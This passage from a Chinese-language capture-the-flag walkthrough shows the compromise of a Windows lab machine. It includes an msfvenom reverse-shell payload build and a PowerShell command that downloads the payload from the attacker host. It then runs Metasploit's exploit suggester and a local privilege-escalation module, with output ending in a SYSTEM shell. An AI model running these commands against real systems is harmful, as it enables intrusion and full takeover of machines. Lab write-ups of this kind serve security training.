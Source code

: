 ## 传winpeas枚举

编译一个meterpreter `msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.16.3 LPORT=4455 -f exe > shell.exe`

传到靶机
`powershell -c "(new-object System.Net.WebClient).DownloadFile('http://10.10.16.3:8000/shell.exe','c:\Users\Alfred\Desktop\shell.exe')"`

拿到shell以后执行`post/multi/recon/local_exploit_suggester`

```
meterpreter > run post/multi/recon/local_exploit_suggester

[*] 10.10.10.74 - Collecting local exploits for x86/windows...
[*] 10.10.10.74 - 37 exploit checks are being tried...
[+] 10.10.10.74 - exploit/windows/local/bypassuac_eventvwr: The target appears to be vulnerable.
nil versions are discouraged and will be deprecated in Rubygems 4
[+] 10.10.10.74 - exploit/windows/local/ikeext_service: The target appears to be vulnerable.
[+] 10.10.10.74 - exploit/windows/local/ms10_015_kitrap0d: The service is running, but could not be validated.
[+] 10.10.10.74 - exploit/windows/local/ms10_092_schelevator: The target appears to be vulnerable.
[+] 10.10.10.74 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.10.74 - exploit/windows/local/ms15_004_tswbproxy: The service is running, but could not be validated.
[+] 10.10.10.74 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.10.74 - exploit/windows/local/ms16_016_webdav: The service is running, but could not be validated.
[+] 10.10.10.74 - exploit/windows/local/ms16_032_secondary_logon_handle_privesc: The service is running, but could not be validated.
[+] 10.10.10.74 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.

```

使用模块`exploit/windows/local/ntusermndragover`提权到system

```
msf6 exploit(windows/local/ntusermndragover) > run

[*] Started reverse TCP handler on 10.10.16.3:4444 
[*] Executing automatic check (disable AutoCheck to override)
[+] The target appears to be vulnerable.
[*] Launching notepad.exe to host the exploit...
[+] Process 5532 launched.
[*] Injecting exploit into 5532 ...
[*] Exploit injected. Injecting payload into 5532...
[*] Payload injected. Executing exploit...
[*] Sending stage (175174 bytes) to 10.10.10.74
[*] Meterpreter session 8 opened (10.10.16.3:4444 -> 10.10.10.74:49165) at 2022-01-07 04:32:54 -0500

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM

```